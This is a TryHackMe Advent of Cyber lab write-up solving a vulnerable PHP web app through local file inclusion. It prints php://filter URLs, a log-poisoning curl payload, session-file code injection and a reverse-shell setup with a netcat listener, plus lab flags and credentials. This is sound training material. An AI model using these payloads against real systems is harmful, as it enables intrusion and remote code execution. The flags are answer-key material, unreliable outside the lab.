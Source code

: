 # Advent of Cyber - Day 6

Link: [Advent Of Cyber 3 on TryHackMe](https://tryhackme.com/room/adventofcyber3)

### Question 1

Deploy the attached VM and look around. What is the entry point for our web application?

Scan the endpoint with `nmap -sV -sC -vv $ip`

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day6/1.png?raw=true)

Answer: `err`

### Question 2

Use the entry point to perform LFI to read the `/etc/flag` file. What is the flag?

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day6/2.png?raw=true)

Answer: `THM{d29e08941cf7fe41df55f1a7da6c4c06}`

### Question 3

Use the PHP filter technique to read the source code of the `index.php`. What is the $flag variable's value?

If we try the standard LFI bypass without a filter for `index.php` (url below), we encounter an error.

`http://$ip/index.php?err=php://filter/resource=index.php`

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day6/3-1.png?raw=true)

The reason for this is that it's rendering the PHP instead of just displaying the text, and this is where the filter bypass using Base64 comes into play, using the following url: `http://$ip/index.php?err=php://filter/convert.base64-encode/resource=index.php`

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day6/3-2.png?raw=true)

If we throw this into [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)), we get the following output, including our flag.

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day6/3-3.png?raw=true)

Answer: `THM{791d43d46018a0d89361dbf60d5d9eb8}`

### Question 4

McSkidy forgot his login credential. Can you help him to login in order to recover one of the server's passwords?

Now that you read the index.php, there is a login credential PHP file's path. Use the PHP filter technique to read its content. What are the username and password?

From the previous question's `index.php` file, we can see that there is another file at `./includes/creds.php`.

If we apply the same method as earlier, we can access it's contents at `http://$ip/index.php?err=php://filter/convert.base64-encode/resource=./includes/creds.php`.

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day6/4-1.png?raw=true)

If we throw that in CyberChef, we get the following:

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day6/4-2.png?raw=true)

Answer: `McSkidy:A0C315Aw3s0m`

### Question 5

Use the credentials to login into the web application. Help McSkidy to recover the server's password. What is the password of the flag.thm.aoc server? 

If we go to the original URL, `http://$ip/index.php?err=error.txt` we can click the `login` link at the bottom.

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day6/5-1.png?raw=true)

We then go to "Password Recovery", and we can see our password/flag:

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day6/5-2.png?raw=true)

`THM{552f313b52e3c3dbf5257d8c6db7f6f1}`

### Question 6

The web application logs all users' requests, and only authorized users can read the log file. Use the LFI to gain RCE via the log file page. What is the hostname of the webserver? The log file location is at `./includes/logs/app_access.log`.

`curl -A "<?php phpinfo();?>" http://$ip.p.thmlabs.com/login.php` 

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day6/6-1.png?raw=true)

`http://$ip/index.php?err=php://filter/resource=includes/logs/app_access.log`

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day6/6-2.png?raw=true)

Answer: `lfi-aoc-awesome-59aedca683fff9261263bb084880c965`

### Question 7

Bonus: The current PHP configuration stores the PHP session files in /tmp. Use the LFI to call the PHP session file to get your PHP code executed.

First, we need to discover our session ID, either by finding it among the `phpinfo` results from the previous question (search for `SESSION`) or by going to the Web Developer tools and checking storage.

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day6/7-1.png?raw=true)

We need two pages open:

- `http://$ip/login.php`
- `http://$ip/index.php?err=php://filter/resource=/tmp/sess_$sessid`

In the first, add `<?php phpinfo(); ?>` to the login username, then press enter.

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day6/7-2.png?raw=true)

Then go to the second page and refresh.

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day6/7-3.png?raw=true)

Now. This is fun and all, but maybe we could go further? Maybe we could penetrate the box?

Let us look for a PHP reverse shell program!

We can use [this one](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) from pentestmonkey!

Let's just paste it (with the correct IP) into the first page and start a netcat listener (`nc -lvnp 1234`)!

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day6/7-4.png?raw=true)

And refresh the second page...

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day6/7-5.png?raw=true)

And look at our listener!

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day6/7-6.png?raw=true)

Well? Why isn't it working?

Well, it has to do with the login field! It's putting everything on the same line! And the default `php-reverse-shell.php` is full of comments, so if it's plonking everything on the same line, then everything after the first comment will end up commented!

So if we take the time to strip all the comments from the file, we can then copy that into the login form:

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day6/7-7.png?raw=true)

The second page will then timeout (as expected when spawning a shell):

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day6/7-8.png?raw=true)

And our listener will get some input!

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day6/7-9.png?raw=true)

(This falls under the umbrella of RCE, but there are no flags on the machine, so you can just log off afterwards)

Answer: `No answer needed`